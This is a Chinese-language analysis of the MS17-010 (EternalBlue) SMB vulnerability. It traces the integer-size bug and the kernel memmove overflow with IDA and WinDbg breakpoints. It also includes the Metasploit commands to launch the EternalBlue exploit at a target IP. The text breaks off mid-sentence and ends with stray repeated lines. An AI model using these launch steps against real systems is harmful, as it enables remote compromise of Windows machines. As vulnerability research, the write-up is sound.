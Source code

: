 # MS17_010
## Summary
MS17_010，Eternalblue(永恒之蓝)
## Analyze
根据matesploit的exploit攻击脚本，漏洞发生在函数Srv!SrvOs2FeaListSizeToNt中。该函数在一个地方错误地将本应该为_DWORD的地方写成了_WORD，导致数据传递错误:
```
// matesploit中的描述
The size is calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error where a DWORD is subtracted into a WORD.
```
使用IDA打开srv.sys，找到Srv!SrvOs2FeaListSizeToNt函数，可以看到确实存在如matesploit所描述的错误:

![](pic/DWORD_WORD.png)

使用Windbg进行内核调试，在上面错误发生地址下断点:
```
bp srv!SrvOs2FeaListSizeToNt+0x74
```
然后在metasploit中依次执行以下指令:

```
use exploit/windows/smb/ms17_010_eternalblue
set rhost xxx.xxx.xxx.xxx (被攻击机ip)
exploit
```
Windbg执行到断点处就会停下:

![](pic/srv!SrvOs2FeaListSizeToNt+0x74.png)

分别查看bx和rsi地址的值:

![](pic/bx_rsi.png)

这里的[rsi]本应该是0xff5d,但是错误地使用了_WORD,所以变成了**0x1ff5d**。

metasploit显示缓冲区溢出发生在Srv!SrvOs2FeaToNt函数中的memmove:
```
There is a buffer overflow memmove operation in Srv!SrvOs2FeaToNt.
```
Srv!SrvOs2FeaToNt函数有两处memmove:

![](pic/Srv!SrvOs2FeaToNt.png)
但是其中有不少memmove的size都为0，即没有发生内存数据移动。所以需要下断点如下:

```
bp Srv!SrvOs2FeaToNt+0x38 "j @r8!=0 '';'gc'"
bp Srv!SrvOs2FeaToNt+0x5a "j @r8!=0 '';'gc'"
```

继续跑起来，最终发现Windbg分别断在了size = 0xf383 和size = 0xa8 上:

![](pic/memmove_0.png) ![](pic/memmove_1.png)


使用栈回溯的方法确定memmove修改了哪个重要的部分。首先在payload的最前面加上**0xcc**使Windbg在执行shellcode前断下。接下来使用指令**k**查看函数调用栈:
![](pic/function_stack.png)
可以看到shellcode的地址为**0xffffffff\`ffd00201**，其上面有两层srvnet的父函数。srvnet!SrvNetCommonReceiveHandler+0xbb在IDA里表示如下call:
![](pic/srvnet!SrvNetCommonReceiveHandler_0xbb.png)
可以根据 [r10+8] == **0xffffffff\`ffd00201** 得到r10的值，进而逆推出上面[rbx+0x1d8]的值。在srvnet!SrvNetCommonReceiveHandler+0xb7处下断点 (图中+0xbb是call的下条指令的地址):
```
bp srvnet!SrvNetCommonReceiveHandler+0xbb "j poi(r10+8) == 0xffffffffffd00201 '';'gc'"
```
重新执行shellcode，得到r10的值**0xffffffffffd001f0**:
![](pic/srvnet!SrvNetCommonReceiveHandler_r10.png)
类似地，在 mov r10,[rbx+0x1d8] 处下断点直到[rbx+0x1d8] == **0xffffffffffd001f0**，得到rbx == **0xffffffffffd00010**:
![](pic/srvnet!SrvNetCommonReceiveHandler_rbx.png)
而rbx是作为srvnet!SrvNetCommonReceiveHandler第一个参数被传入函数中的，所以下断点在上层函数**srvnet!SrvNetWskReceiveComplete**中调用srvnet!SrvNetCommonReceiveHandler的地方:
```
bp srvnet!SrvNetWskReceiveComplete+0x10c "j @rcx == 0xffffffffffd00010 '';'gc'"
```
rcx的值在**srvnet!SrvNetWskReceiveComplete**函数中最早是由 [r8+0x48] 传值的,所以在相应的地方下断点即可。

rcx的传值过程:
![](pic/SrvNetWskReceiveComplete_call.png)

==========>

![](pic/SrvNetWskReceiveComplete_r8_48.png)

所以下断点指令如下:
```
bp srvnet!SrvNetWskReceiveComplete+0xa "j poi(r8+0x48) == 0xffffffffffd00010 '';'gc'"
```
再次重新执行shellcode，得到r8+0x48 == **0x**:

srv!SrvOs2FeaToNt+0x5a "j @r8!=0 '';'gc'"
srvnet!SrvNetWskReceiveComplete+0xa "j poi(r8+0x48) == 0xffffffffffd00010 '';'gc'"
